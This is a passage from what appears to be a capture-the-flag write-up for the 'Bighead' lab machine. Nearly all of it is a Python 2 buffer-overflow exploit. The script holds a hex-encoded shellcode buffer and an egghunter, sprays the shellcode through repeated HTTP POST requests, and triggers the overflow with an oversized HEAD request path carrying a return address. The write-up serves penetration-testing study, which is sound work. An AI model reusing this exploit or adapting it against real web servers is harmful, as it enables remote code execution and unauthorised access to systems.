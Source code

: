 ```
buf += "af0e62e4b7534fbe4ca73b4184"
buf += "f9c4eee93537ee2ef1a8854601"
buf += "549e9d7b822b05db418be1dd86"
buf += "4a62d163182cf672cd4702fef0"
buf += "878244d703ce1f7612aace8744"
buf += "15ae2d0fb8bb5f52d508526c25"
buf += "07e51f17885db71b4178405b78"
buf += "3cdea2833df760d76d6f4058e6"
buf += "6f6d8da93fc17e0aefa12ee2e5"
buf += "2d101206e439b9fd6f4c34ee74"
buf += "384a108e81c3f6fae185a19298"
buf += "8f3902641a4404eea9b9cb07c7"
buf += "a9bce792936bf708bbf06ad73b"
buf += "7e97406cd76999f8c5d0331e14"
buf += "847c9ac375822381c2a0335fca"
buf += "ec670f9dbad1e9770d8ba324c7"
buf += "5b3507d81d3a42aec18b3bf7fe"
buf += "24acff87584cff52d97c4afe48"
buf += "15136bc978a4460e852762ef72"
buf += "3707ea3ffff486506afa3550bf"

shellcode = (egg * 2) + binascii.unhexlify(buf)
egghunter = "6681caff0f42526a0258cd2e3c055a74efb8" + binascii.hexlify(egg) + "8bfaaf75eaaf75e7ffe7"

def send_shellcode(N,host,port,egg,shellcode):
	print "\033[32m [*] Sending Shellcode"
	for i in range(0,16):
		s = socket.socket(socket.AF_INET,socket.SOCK_STREAM,0)
		s.connect((host,port))
		s.send("POST / HTTP/1.1\r\n")
		s.send("Host: dev.bighead.htb\r\n")
		s.send("Content-Length: %s\r\n"%len(shellcode))
		s.send("\r\n")
		s.send(shellcode+"\r\n")
		s.send("\r\n")
		print '\033[34m' + '[' + str(N) + '] ' + re.sub(r"\s"," ",s.recv(12))
		s.close()
		N += 1
	print "\033[32m [*] Done"

def send_egghunter(host,port,egghunter):
	print "\033[32m [*] Sending EggHunter"
	s = socket.socket(socket.AF_INET,socket.SOCK_STREAM,0)
	s.connect((host,port))
	s.settimeout(None)
	s.send("HEAD /" + ("A"*72) + "f0125062" + egghunter + " HTTP/1.1\r\n")
	s.send("Host: dev.bighead.htb\r\n")
	s.send("\r\n")
	print '\033[34m' + re.sub(r"\s"," ",s.recv(12))
	s.close()
	print "\033[32m [*] Done"

send_shellcode(N,host,port,egg,shellcode)
send_egghunter(host,port,egghunter)
```
#### Now it's show time, Let's test the exploit :